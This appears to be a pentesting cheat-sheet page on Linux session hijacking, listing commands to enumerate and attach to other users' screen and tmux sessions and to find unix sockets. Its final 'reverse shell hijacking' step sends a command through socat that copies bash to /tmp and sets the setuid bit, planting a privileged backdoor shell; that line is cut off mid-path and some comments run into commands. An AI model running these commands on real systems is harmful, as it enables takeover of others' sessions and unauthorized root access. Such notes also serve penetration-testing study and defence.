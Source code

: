#### **Session Hijacking means there are privileged user Opened a session on the system with some program now and you want to use it**

#### **screen sessions hijacking**

> Screen is A program that you can store a session of Shell access and freeze its state to back it or connect it from another shell

> In old versions you may hijack sessions of a different user In newest versions you will be able to connect to screen sessions only of your own user.

*   **Enumerating opened sessions**

    ```
    screen -ls
    ```

    ![](https://0xbugatti.io/_astro/e9dac53adff31447dc6a7dc4eeb931bf.DXg7LDKX_ZTmIiV.webp)
*   **Hijacking opened sessions**

    ```
    screen -dr <session> #The -d is to detacche whoever is attached to itscreen -dr 7120.pts-1.XTeam
    ```

    ![](https://0xbugatti.io/_astro/545434d973259a9a6cbffe2f418beffa.BIf3DVWR_Z1JrWoD.webp)

#### **Tmux sessions hijacking**

*   **List tmux sessions**

    ```
    tmux ls
    ```

    ```
    tmux -S /tmp/dev_sess ls #List using that socket, you can start a tmux session in that socket with: tmux -S /tmp/dev_sess
    ```

    ![](https://0xbugatti.io/_astro/dc4daa8b945cad2ab344754ff509d6f2.CJLgGG3w_Z2vAQ0d.webp)
*   **Hijacking opened sessions**

    ```
    tmux attach -t SESSNAME #If you write something in this session it will appears in the other opened one# use -d for Detach Oppened session
    ```

    ![](https://0xbugatti.io/_astro/17ff5b566c3421e59b08ff8384f8f8b5.vo9JOs39_ZBG63Q.webp)

## **Reverse Shell Hijacking**

*   **Enumeration**

    ```
    netstat -a -p --unix |grep -E '?\.s'
    ```
*   **Hijacking**

    ```
    echo "cp /bin/bash /tmp/bash; chmod +s /tmp/bash; chmod +x /tmp/bash;" | socat - UNIX-CLIENT:/t
    ```
